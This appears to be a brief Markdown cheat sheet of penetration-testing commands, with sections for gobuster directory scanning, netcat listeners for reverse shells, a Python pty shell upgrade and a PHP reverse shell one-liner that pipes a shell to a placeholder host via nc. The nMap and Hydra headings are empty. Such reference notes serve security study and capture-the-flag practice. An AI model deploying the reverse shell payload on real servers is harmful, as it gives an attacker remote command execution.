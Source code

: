 # Useful Codes
---
## nMap
---



---
## Gobuster
---
- Gobuster Dir

```bash

gobuster dir -u http://$IP --wordlist $Wordlist

```
---
## Hydra
---



---
## Netcat
---
- Listening for incoming RevShells
```sh
nc -lvnp port
```
- Listen for incoming calls
```sh
nc -nc ip port
```

---
## Python
---
- Python Server
```python

python3 -c 'import pty; pty.spawn("/bin/bash")'

```

---
## Revshells
---
- PHP Reverse Shell
```php

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f"); ?>

```